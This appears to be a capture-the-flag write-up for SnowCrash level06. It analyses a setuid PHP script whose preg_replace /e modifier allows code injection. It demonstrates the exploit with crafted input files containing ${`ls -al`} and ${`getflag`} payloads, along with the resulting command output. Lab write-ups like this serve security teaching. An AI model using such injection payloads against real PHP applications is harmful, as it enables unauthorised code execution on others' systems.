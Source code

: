 # Level 06

When we examine what's inside the working directory, we get the following files:

    level06@SnowCrash:~$ ls
    level06  level06.php

When analyzing the executable file "level06" we see that it takes a file as argument:

    level06@SnowCrash:~$ ./level06
    PHP Warning:  file_get_contents(): Filename cannot be empty in /home/user/level06/level06.php on line 4

And looks like the source code from which the executable file was compiled from was level06.php:

    level06@SnowCrash:~$ strings level06
    ...
    /usr/bin/php
    /home/user/level06/level06.php
    ...

    level06@SnowCrash:~$ cat level06.php

    #!/usr/bin/php
    <?php
    
    function y($m) { 
	    $m = preg_replace("/\./", " x ", $m); 
	    $m = preg_replace("/@/", " y", $m); return $m; 
	    }
	
    function x($y, $z) { 
	    $a = file_get_contents($y); 
	    $a = preg_replace("/(\[x (.*)\])/e", "y(\"\\2\")", $a); 
	    $a = preg_replace("/\[/", "(", $a); $a = preg_replace("/\]/", ")", $a); 
	    return $a; 
	    }
	
    $r = x($argv[1], $argv[2]); print $r;
    
    ?>

This PHP script is designed to process a file's content based on specific regular expression replacements.

It looks for patterns like `[x ...]` and replaces them with modified versions of the inner content.

The function y($m) takes a string $m and replaces:
- Every `.` with ` x `.
- Every `@` with ` y`.

The function x($y, $z) takes two arguments, $y and $z.
- $y is the filename whose content will be processed.
- $z is not used in the function.

- preg_replace("/\[/", "(", $a): Replaces all `[` with `(`
- preg_replace("/\]/", ")", $a): Replaces all `]` with `)`


For instance:

    level06@SnowCrash:~$ echo "THIS IS A TEST : [x HELLO ... @@@]" > /tmp/testa
    level06@SnowCrash:~$ ./level06 /tmp/testa
    THIS IS A TEST : HELLO  x  x  x   y y y

    
## Security problem

The use of the `/e` modifier in `preg_replace` is highly insecure as it allows execution of arbitrary PHP code, which means that whatever is parsed is transformed into php code. This can lead to security vulnerabilities such as code injection if the input is not properly sanitized.

Hence, we can execute commands, for example :

    level06@SnowCrash:~$ echo 'TRYING THIS STUFF [x ${`ls -al`} ]' > /tmp/test
    level06@SnowCrash:~$ ./level06 /tmp/test
    PHP Notice:  Undefined variable: total 24
    dr-xr-x---+ 1 level06 level06  140 Mar  5  2016 .
    d--x--x--x  1 root    users    340 Aug 30  2015 ..
    -r-x------  1 level06 level06  220 Apr  3  2012 .bash_logout
    -r-x------  1 level06 level06 3518 Aug 30  2015 .bashrc
    -rwsr-x---+ 1 flag06  level06 7503 Aug 30  2015 level06
    -rwxr-x---  1 flag06  level06  356 Mar  5  2016 level06.php
    -r-x------  1 level06 level06  675 Apr  3  2012 .profile
     in /home/user/level06/level06.php(4) : regexp code on line 1  

Now all we have to do is the same but with the getflag program, and we have our token.

    level06@SnowCrash:~$ echo 'TRYING THIS STUFF [x ${`getflag`} ]' > /tmp/test

https://www.php.net/manual/en/language.operators.execution.php